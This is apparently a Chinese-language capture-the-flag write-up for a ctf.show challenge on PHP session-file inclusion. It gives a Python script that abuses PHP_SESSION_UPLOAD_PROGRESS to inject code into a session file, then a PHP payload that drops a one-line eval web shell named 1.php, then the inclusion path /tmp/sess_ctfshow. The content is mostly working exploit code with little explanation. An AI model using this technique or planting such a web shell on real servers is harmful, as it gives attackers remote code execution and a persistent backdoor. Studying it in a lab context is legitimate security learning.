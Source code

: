 通过伪造”文件上传“创建session脚本

```python
import requests
# 如果题目链接是https，换成http
# url="https://642a817d-1d1a-4f22-aded-f796560bdd17.challenge.ctf.show/"
url="http://642a817d-1d1a-4f22-aded-f796560bdd17.challenge.ctf.show/"
sessionid = 'ctfshow'

data = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php phpinfo();?>',
    '1': 'localhost/tmp/sess_'+sessionid,
    }
 
file = {
    'file': sessionid
}
cookies = {
    'PHPSESSID': sessionid
}

response = requests.post(url=url,data=data,files=file,cookies=cookies)
print(response.text)
```

可以把session内容换成以下内容，生成一个新的木马文件

```php
<?php
file_put_contents("1.php","<?php eval(\$_POST[1]);?>");
?>
```

现在可以通过post传参传入1=localhost/tmp/sess_ctfshow包含这个session文件

![4](/medias/session-include/4.png)
